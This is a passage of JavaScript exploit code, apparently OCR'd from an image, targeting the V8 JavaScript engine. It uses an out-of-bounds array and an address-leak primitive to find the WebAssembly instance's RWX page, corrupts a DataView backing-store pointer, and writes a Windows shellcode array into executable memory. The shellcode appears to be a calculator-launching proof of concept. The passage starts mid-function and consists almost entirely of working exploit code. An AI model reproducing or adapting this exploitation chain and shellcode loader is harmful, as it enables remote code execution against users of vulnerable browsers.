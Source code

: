 ```js
  
    return addr;
}
  
console.log(addrOf(wasmInstance));
  
const heapBaseIndex = 95;
heapBase = Int64.fromDouble(oob_Array[heapBaseIndex]).toString().slice(10, 18);
  
console.log(heapBase);
const float_arr_ele_index = 12;

function compress_read(addr, isLower) {
    // save a backup for restoration just in case something goes wrong
    backup = oob_Array[float_arr_ele_index];
    // Set to the pointer address that we want to read from
    var temp = new Int64(addr) - 8;
    oob_Array[float_arr_ele_index] = new Int64(temp).asDouble();
    value = Int64.fromDouble(float_arr[0]); // access the array to read from the element
    oob_Array[float_arr_ele_index] = backup; // restore the values
    if (isLower == true) {
        return value = value.toString().slice(10, 18);
    } else if (isLower == false) {
        return value = value.toString().slice(2, 10);
    }
    return value.toString();
}
  
wasmInstanceAddr = heapBase + addrOf(wasmInstance, true);
wasmInstanceAddr = new Int64(wasmInstanceAddr) - 1 + 0x68; // +0x68 to get to the actual location and -1 due to pointer compression once again.
  
const rwxAddress = compress_read(wasmInstanceAddr, null).slice(0, -2);
console.log("[+] wasmInstanceAddr : " + heapBase + Int64.fromDouble(wasmInstanceAddr).toString().slice(10,18)   );

console.log("[+] RWX Address : " + rwxAddress);

 function shellcoding_the_rwx() {
      shellcode = [0xe7894955, 0xe48348fc, 0x00c0e8f0, 0x51410000, 0x51525041, 0xd2314856, 0x528b4865, 0x528b4860, 0x528b4818, 0x728b4820, 0xb70f4850, 0x314d4a4a, 0xc03148c9, 0x7c613cac, 0x41202c02, 0x410dc9c1, 0xede2c101, 0x48514152, 0x8b20528b, 0x01483c42, 0x88808bd0, 0x48000000, 0x6774c085, 0x50d00148, 0x4418488b, 0x4920408b, 0x56e3d001, 0x41c9ff48, 0x4888348b, 0x314dd601, 0xc03148c9, 0xc9c141ac, 0xc101410d, 0xf175e038, 0x244c034c, 0xd1394508, 0x4458d875, 0x4924408b, 0x4166d001, 0x44480c8b, 0x491c408b, 0x8b41d001, 0x01488804, 0x415841d0, 0x5a595e58, 0x59415841, 0x83485a41, 0x524120ec, 0x4158e0ff, 0x8b485a59, 0xff57e912, 0x485dffff, 0x000001ba, 0x00000000, 0x8d8d4800, 0x00000101, 0x8b31ba41, 0xd5ff876f, 0xa2b5f0bb, 0xa6ba4156, 0xff9dbd95, 0xc48348d5, 0x7c063c28, 0xe0fb800a, 0x47bb0575, 0x6a6f7213, 0x894c9000, 0x63c35dfc, 0x00636c61];

      const backing_store_index = 33;
      // We will be writing into dataview2 by corrupting the backingStore pointer to point to the address

      backup = oob_Array[backing_store_index];
      oob_Array[backing_store_index] = new Int64(rwxAddress).asDouble(); // corrupt the backing store with rwxAddress
      
      // copying 4 bytes by 4 bytes
      for (let i = 0; i < shellcode.length; i++) {
          dataview.setUint32(i * 4, shellcode[i], true); // offset +4 each time data is copied and in little endian format
      }

```
